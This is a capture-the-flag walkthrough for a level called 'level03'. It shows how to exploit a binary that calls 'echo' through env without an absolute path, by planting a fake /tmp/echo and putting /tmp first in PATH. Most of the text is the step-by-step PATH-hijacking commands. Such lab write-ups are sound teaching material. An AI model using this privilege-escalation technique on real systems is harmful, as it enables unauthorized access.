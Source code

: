 <h1 align="center"> level03 </h1>

```
ls -la
```

We have an executable file. We can take a first look inside with:
```
strings level03
```

One line is important:
```
/usr/bin/env echo Exploit me
```

It use echo to print something but it's not an absolute link to the command. We can add our echo file location to the ```$PATH``` variable.
It's evaluated from left to right, so we can put it first.

Creation of our echo file:
```shell
echo '/bin/getflag' > /tmp/echo
```
And don't forget to give execution permissions:
```
chmod +x /tmp/echo
```


Change the ```$PATH``` variable to add our temp folder first:
```
PATH=/tmp:$PATH
```

Then:
```
./level03
```

It give us the getflag result, who allows us to pass to the next level, it work !
